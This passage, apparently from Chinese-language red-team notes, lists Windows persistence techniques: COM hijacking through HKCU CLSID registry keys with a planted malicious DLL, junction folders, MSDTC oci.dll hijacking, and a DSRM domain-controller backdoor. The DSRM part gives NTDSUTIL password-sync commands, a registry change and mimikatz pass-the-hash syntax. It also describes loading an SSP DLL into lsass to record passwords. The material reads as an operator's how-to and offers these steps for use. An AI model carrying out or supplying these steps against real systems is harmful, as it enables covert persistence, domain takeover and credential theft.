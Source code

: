 ### 5 .com hijack

Component Object Model（组件对象模型），是微软的一套软件组件的二进制接口标准，使得跨编程语言的进程间通信、动态对象创建成为可能。利用COM劫持技术，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。

```javascript
首先在%APPDATA%\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\目录下放入恶意dll文件   //若Installer文件夹不存在，则依次创建Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}
然后修改注册表，在HKCU\Software\Classes\CLSID\下创建项{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}
然后再创建一个子项lceServer，值默为dll文件路径。再创建一个键ThreadingModel，键值为：Apartment
之后可以通过打开相关程序比如iexplore.exe来调用恶意dll

相关工具：COM-Object-hijacking
```

### 6.junction folder

文件夹命名为：name.{clsid}。当浏览时，就会执行对应的clsid的dll。

### 7.msdtc

Distributed Transaction Coordinator，微软分布式传输协调程序，Windows系统默认启动该服务。计算机加入域，MSDTC服务启动时，会搜索注册表HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDTC\MTxOCI，并加载3个DLL：oci.dll、SQLLib80.dll、xa80.dll。但是默认oci.dll是没有的，可以自己在system32下放置一个恶意oci.dll，实现劫持。

**除了上面说的一些，还有其他许多方法可以实现dll劫持，继续探索。DLL劫持识别开源工具：Rattler。**

### 8.DSRM

每一个域控都有一个本地管理员账户（并非域的管理员帐户），也就是所谓的目录服务还原模式（DSRM）账户。DSRM的密码是在DC安装时就要设置，很少会被重置。本地用户的hash存在sam文件，而域内用户hash存在ntds.dit。不使用域控的administrator进行pth，使用dsrm用户pth。但是dsrm默认不能pth，但是改了注册表就可以了。默认情况下域控的administrator密码与dsrm是不同的，我们首先同步密码，之后修改注册表。

```sql
1.同步密码：
NTDSUTIL 
SET DSRM PASSWORD 
SYNC FROM DOMAIN ACCOUNT <your user like krbtgt> 
Q 
Q
PS：Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，而Windows Server 2003不支持DSRM密码同步
2.使用mimikatz查看密码是否同步
3.修改注册表允许DSRM账户远程访问：
HKLM\System\CurrentControlSet\Control\Lsa\DSRMAdminLogonBehavior值设置为为2（代表无论哪一种情况，你都可以使用DSRM管理员帐户登录。）   //默认不存在，手动添加
4.使用hash远程登录即可pth：
privilege::debug
sekurlsa::pth /domain:w7 /user:Administrator /ntlm:xxxxxxxx
```

### 9.SSP

Security Support Provider（安全支持提供程序），是Windows API，用于扩展Windows身份验证机制。lsass进程正在Windows启动期间加载其提供的dll，我们可以通过修改或者替换dll实现与lsass进程进行交互并记录该进程中存储的所有密码信息。
